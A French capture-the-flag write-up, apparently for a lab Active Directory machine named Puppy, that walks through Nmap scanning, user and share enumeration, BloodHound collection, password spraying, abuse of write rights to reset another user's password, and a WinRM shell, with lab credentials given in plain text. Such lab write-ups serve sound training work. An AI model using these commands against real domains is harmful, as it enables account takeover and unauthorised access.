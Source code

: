 Tasks : 
- Énumération des utilisateurs et services AD.
- Exploitation des partages et fichiers sensibles.
- Escalation des privilèges via abus de droits Active Directory .
- Récupération des identifiants administrateur via une attaque **DCSync**.
# Enumeration 
# Nmap 

Nous avons débuté l'engagement par une analyse de port à l'aide de l'outil Nmap afin d'identifier les services exposés sur la cible.

```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-05-18 19:47:14Z)
111/tcp   open  rpcbind       2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: PUPPY.HTB0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
2049/tcp  open  nlockmgr      1-4 (RPC #100021)
3260/tcp  open  iscsi?
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: PUPPY.HTB0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
53378/tcp open  msrpc         Microsoft Windows RPC
53387/tcp open  msrpc         Microsoft Windows RPC
53402/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-05-18T19:49:03
|_  start_date: N/A
|_clock-skew: 6h59m56s
```

Des identifiants ont été fournis dès le départ pour initier l’accès à la machine :
- **Utilisateur :** `levi.james`
- **Mot de passe :** `KingofAkron2025!`

Ces identifiants ont permis de réaliser des actions d’énumération sur l’environnement Active Directory.

![[Pasted image 20250518150908.png]]

Nous avons ajouté ces informations :
Dans `/etc/hosts` pour la résolution locale.
### Enumeration des utilisateurs 

```
nxc smb PUPPY.HTB -u 'levi.james' -p 'KingofAkron2025!' --rid-brute | grep "SidTypeUser" | awk -F '\\' '{print $2}' | awk '{print $1}' > users.txt
```

![[Pasted image 20250518151924.png]]

### enumeration des dossiers

```bash
crackmapexec smb 10.10.X.X -u levi.james -p 'KingofAkron2025!' --shares
```

![[Pasted image 20250521121640.png]]

Nous avons trouvé un partage nommé **DEV**.

![[Pasted image 20250521122929.png]]

## Analyse de l’environnement avec BloodHound

Grâce à **bloodhound-python**, une collecte a été effectuée pour cartographier les relations et privilèges dans l’Active Directory.

```
bloodhound-python -dc DC.PUPPY.HTB -u 'levi.james' -p 'KingofAkron2025!' -d PUPPY.HTB -c All -o bloodhound_results.json -ns 10.10.11.70
```

![[Pasted image 20250521144358.png]]



Analyse des droits :

- `levi.james` est membre du groupe **Developers** avec un droit **GenericWrite** sur un autre compte, mais non exploitable immédiatement.


À partir du dump, nous avons généré un fichier `passwords_only.txt`, puis effectué un **password spraying** :

![[Pasted image 20250518154138.png]]

edwards:Antman2025!

Analyse avec BloodHound : l’utilisateur `ant.edwards` a un droit d’écriture sur `adam.d.silver`.

Nous utilisons `rpcclient` ou `bloodyAD` pour changer le mot de passe de la cible.

```
bloodyAD/bloodyAD.py --host 10.10.X.X -d PUPPY.HTB -u Ant.Edwards -p 'Antman2025!' get writable --detail | grep -E "distinguishedName: CN=.*DC=PUPPY,DC=HTB" -A 10
```

![[Pasted image 20250521141240.png]]
  
Nous changeons le mot de passe avec rpcclient

```bash
rpcclient -U 'puppy.htb\Ant.Edwards%Antman2025!' 10.10.X.X
```


![[Pasted image 20250521141542.png]]

![[Pasted image 20250521141843.png]]


![[Pasted image 20250521142830.png]]

```bash
impacket-changepasswd puppy.htb/adam.silver@10.10.X.X -newpass 'Passwordlol237' -altuser puppy.htb/ant.edwards -altpass Antman2025! -reset
```


![[Pasted image 20250521150538.png]]

Avec le mot de passe modifié, nous utilisons **WinRM** pour obtenir un shell distant :

```bash
evil-winrm -i 10.10.X.X -u adam.d.silver -p 'NewPass123!'
```

![[Pasted image 20250521151820.png]]


> [!Important]
> Si vous avez désactivé l'utilisateur, saisissez-le dans le champ .ldif
>  dn: CN=Adam D. Silver,CN=Users,DC=PUPPY,DC=HTB
> changetype: modify
> replace: userAccountControl
> userAccountControl: 512
> ldapmodify -x -H ldap://$ip -D "ant.edwards@puppy.htb" -w 'Antman2025!' -f modify.ldif


